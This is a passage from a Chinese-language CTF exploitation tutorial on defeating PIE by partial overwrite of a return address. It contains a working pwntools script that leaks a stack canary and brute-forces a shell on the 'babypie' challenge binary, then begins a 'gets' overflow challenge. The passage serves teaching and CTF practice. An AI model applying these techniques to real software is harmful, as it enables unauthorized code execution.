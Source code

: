 ```asm
   0x55dc43694a4e:	nop
   0x55dc43694a4f:	pop    rbp
   0x55dc43694a50:	ret    
   0x55dc43694a51:	push   rbp
   0x55dc43694a52:	mov    rbp,rsp
   0x55dc43694a55:	sub    rsp,0x10
```
可以發現, 此時的返回地址與 get shell 函數的地址只有低位的 8 bit 不同, 如果覆寫低 8 bit 爲 `0x?A3E`, 就有一定的幾率 get shell

最終的腳本如下:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
#  context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

while True:
    try:
        io = process("./babypie", timeout = 1)

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        io.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + io.recvn(7)
        success(canary.encode('hex'))

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        io.interactive()
    except Exception as e:
        io.close()
        print e
```
需要注意的是, 這種技巧不止在棧上有效, 在堆上也是一種有效的繞過地址隨機化的手段

### 2018-XNUCA-gets

這個題目也挺有意思的，如下

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v4; // [rsp+0h] [rbp-18h]

  gets((char *)&v4);
  return 0LL;
}
```

程序就這麼小，很明顯有一個棧溢出的漏洞，然而沒有任何 leak。。
